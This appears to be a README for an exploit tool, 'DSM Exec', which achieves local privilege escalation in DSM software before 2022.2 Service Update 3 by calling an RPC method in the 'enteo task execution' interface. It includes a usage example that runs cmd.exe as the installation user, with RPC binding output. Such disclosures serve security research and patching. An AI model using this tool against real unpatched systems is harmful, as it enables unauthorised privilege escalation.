 ### DSM Exec

----

This project achieves code execution as the DSM software installation
user by calling an RPC method within the `enteo task execution` RPC
interface. Prior to `DSM 2022.2 Service Update 3`, this method could be
called by low privileged user accounts and allowed for local privilege
escalation.  Patched versions only allow administrative users to call
the RPC method.


### Usage

-----

```
C:\>.\dsm-exec.exe
.\dsm-exec.exe <executable> <args>

C:\>.\dsm-exec.exe C:\Windows\System32\cmd.exe "/c whoami > C:\ProgramData\hello.txt"
[*] RpcStringBindingCompose status code: 0
[*] String binding: ncalrpc:[3B1DF259-F328-42d6-A9CD-C01DD2EF31D0]
[*] RpcBindingFromStringBinding status code: 0
[*] RpcStringFree status code: 0
[*] Executing via DSM installer user: C:\Windows\System32\cmd.exe cmd.exe /c whoami > C:\ProgramData\hello.txt
[*] Execution finished without an exception.
```
